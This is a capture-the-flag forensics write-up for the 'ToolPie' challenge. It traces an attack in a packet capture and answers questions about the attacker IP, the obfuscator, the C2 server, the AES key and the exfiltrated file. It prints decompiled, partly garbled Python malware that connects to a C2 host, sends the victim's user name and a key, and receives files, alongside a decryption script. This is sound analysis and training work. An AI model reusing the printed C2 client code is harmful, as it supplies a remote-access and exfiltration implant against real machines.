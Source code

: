 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | ToolPie Writeup
desc: Check out our writeup for ToolPie for Cyber Apocalypse 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: ToolPie
tags: "forensics, twh, pcap, wireshark, tshark, python, obfuscation, aes"
date: 2025-03-29T00:00:00+00:00
last_modified_at: 2025-03-29T00:00:00+00:00
---
```




> Solved by thewhiteh4t


- We were given a PCAP in this challenge


- What is the IP address responsible for compromising the website?
    - Based on POST requests in the PCAP : `194.59.6.66`
- What is the name of the endpoint exploited by the attacker?
    - Based on POST requests : `/execute`
- What is the name of the obfuscation tool used by the attacker?
    - Simply printing the script found above shows a code object which contains a string : `Py-Fuscate`

```    
# replaced exec() with print()
> python chal.py
<code object <module> at 0x555555605650, file "Py-Fuscate", line 1>
```

- What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
    - To find this first we need to get the plain text code, what we have is a `python code object`, we can create `pyc` file which is bytecode and get plaintext from it using tools like `uncompyle6`, `decompyle3` or `pycdc`
    - However none of the tools worked due to python version mismatch, so I found `pylingual`
    - in the code we can see the IP and port : `13.61.7.218:55155`

```
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: Py-Fuscate
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 2025-03-24 20:26:54 UTC (1742848014)
from os import popen
pass
pass
import socket
import threading
import os
import time
import random
import string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
user = os.popen('whoami').read()
BUFFER_SIZE = 4096
SEPARATOR = '<SEPARATOR>'
CONN = True
def enc_mes(mes, key):
    try:
        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        mes = mes.encode() if type(mes)!= bytes else mes
        return cypher.encrypt(pad(mes, cypher_block))
    except:
        return None
def dec_file_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    cypher_block = 16
    s = cypher.decrypt(mes)
    return unpad(s, cypher_block)
def dec_mes(mes, key):
    if mes == b'':
        return mes
def receive_file():
    try:
        client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client2.connect(('13.61.7.218', 54163))
        k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
        client2.send(k.encode())
        pass
        enc_received = client2.recv(BUFFER_SIZE)
        received = dec_mes(enc_received, k).decode()
        filename, filesize = received.split(SEPARATOR)
        ok_enc = enc_mes('ok2', k)
        client2.send(ok_enc)
        total_bytes = 0
        msg = b''
        if total_bytes < int(filesize):
            bytes_read = client2.recv(BUFFER_SIZE)
            msg += bytes_read
            total_bytes += len(bytes_read)
        decr_file = dec_mes(msg, k)
        with open(filename, 'wb') as f:
            f.write(decr_file)
                pass
                client2.close()
    except:
        pass  # postinserted
    client2.send('Error transporting file'.encode())
def receive(client, k):
    pass
    try:
        pass  # postinserted
    s += 1
    msg = client.recv(1024)
    raise Exception('Reconnect!') if s == 300 else True if msg == b'' else False
    except:
        pass  # postinserted
    pass
    try:
        pass  # postinserted
    client.close()
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('13.61.7.218', 55155))
    k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
    client.send(f'{user}{SEPARATOR}{k}'.encode())
    client.settimeout(600)
    time.sleep(60)
    except:
        time.sleep(60)
if __name__ == '__main__':
    pass
    try:
        pass  # postinserted
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('13.61.7.218', 55155))
    k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
    client.send(f'{user}{SEPARATOR}{k}'.encode())
    client.settimeout(600)
    break
    receive_thread = threading.Thread(target=receive, args=(client, k))
    receive_thread.start()
except:
    pass  # postinserted
time.sleep(50)
```

- What encryption key did the attacker use to secure the data?
    - In the code we can see where the key is sent : `client.send(f'{user}{SEPARATOR}{k}'.encode())`
    - we can look for this pattern in the PCAP : `ec2amaz-bktvi3e\administrator\n5UUfizsRsP7oOCAq` so the key is : `5UUfizsRsP7oOCAq`


- What is the MD5 hash of the file exfiltrated by the attacker?
    - Since we have the key, we can write our own decryption script
    - first we need to extract data chunks from the PCAP using `tshark -2 -r capture.pcap -R "tcp.stream eq 4 and data.data" -T fields -e data.data > datafile.txt`
    - now we can write a script to parse data chunks and decrypt the stolen files

```
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

def dec_file_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    cypher_block = 16
    s = cypher.decrypt(mes)
    return unpad(s, cypher_block)

key = '5UUfizsRsP7oOCAq'

filename = None
size = 0
container = b''
filling = False
got_size = False

with open('datafile.txt') as encfile:
    hex_lines = encfile.readlines()
    for line in hex_lines:
        got_name = False
        if filename:
            got_name = True

        msg = bytes.fromhex(line)
        if b'SEPARATOR' in msg:
            continue

        if not filling:
            decr_file = dec_file_mes(msg, key)
            if b'C:' in decr_file:
                filename = decr_file.decode().split('\\')[-1]
                print('[+] Filename : ', filename)
            if got_name and not got_size:
                if int(decr_file.decode()):
                    size = int(decr_file.decode())
                    print('[+] File Size : ', size)
                    got_size = True
            if size and b'ok' in decr_file:  # handle last ok msg after size
                filling = True
        else:
            if len(container) != size:
                container += msg

    decr_file = dec_file_mes(container, key)
    print(f'[+] Writing : {filename}')
    with open(filename, 'wb') as outfile:
        outfile.write(decr_file)
```    


![](https://i.imgur.com/8nMLOhx.png)


MD5 Hash : `8fde053c8e79cf7e03599d559f90b321`


